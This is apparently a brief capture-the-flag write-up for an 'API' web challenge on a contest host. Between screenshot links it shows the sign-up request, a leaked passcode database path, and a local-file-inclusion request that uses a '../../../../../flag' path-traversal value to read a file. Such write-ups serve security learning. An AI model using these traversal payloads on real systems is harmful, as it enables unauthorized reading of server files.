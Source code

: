 # API

![](../.gitbook/assets/image%20%2825%29.png)

First we sign up account

![](../.gitbook/assets/image%20%2822%29.png)

Sign up : user = 3-&gt;15 character & pw = 8-&gt;15 character and other conditions

![](../.gitbook/assets/image%20%2823%29.png)

```text
id=Jisoo0301jisoo&pw=Jisoo0301jisoo&c=u
```

![](../.gitbook/assets/image%20%2824%29.png)

![](../.gitbook/assets/image%20%2821%29.png)

```text
https://api.chal.acsc.asia/lib/db/passcode.db => pas=:<vNk
```

Now we use LFI to solve

![](../.gitbook/assets/image%20%2826%29.png)

Use "gd" to export\_db

```text
id=Jisoo0301jisoo&pw=Jisoo0301jisoo&c=i&c2=gd&pas=:<vNk&&db=../../../../../flag
```

![](../.gitbook/assets/image%20%2827%29.png)

